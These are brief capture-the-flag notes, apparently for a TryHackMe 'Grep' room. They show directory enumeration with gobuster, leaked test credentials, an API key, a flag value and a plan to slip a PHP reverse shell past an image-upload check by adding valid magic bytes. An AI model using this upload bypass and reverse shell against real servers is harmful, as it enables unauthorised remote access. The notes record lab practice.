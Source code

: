 ```
	register.php
	upload.php

check register history
ffe60ecaa8bba2f12b43d1a4b15b8f39

back to burp and paste in API key
send request = success


our credentials
{"username":"test","password":"test","email":"test@thm.com","name":"tester"}

First Flag
THM{4ec9806d7e1350270dc402ba870ccebb}


see what other directories

gobuster https://grep.thm/public/html/

gobuster dir -u https://grep.thm/public/html -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -t 100 --no-error -x php,hs,html -k

/admin.php
/upload.php
/dashboard.php

https://grep.thm/public/html/upload.php


github history shows $uploadPath='api/uploads/'

but remember nmap scan we have port to check out 51337

https://grep.thm:51337/

nano /etc/hosts
leakchecker.grep.thm

https://leakchecker.grep.thm:51337/

email leak checker 

test@test.com = invalid


/upload.php

get a rev shell PHP script
github code checks the header for jpg etc

$allowedExtensions = ['jpg', 'jpeg', 'png', 'bmp'];
$validMagicBytes = [
    'jpg' => 'ffd8ffe0', 
    'png' => '89504e47', 
    'bmp' => '424d'
];

modify the rev shell PHP file to have valid bytes
hexedit revshell.php

00000000   3C 3F 70 68  70 0A 2F 2F  20 70 68 70  2D 72 65 76  <?php.// php-rev
```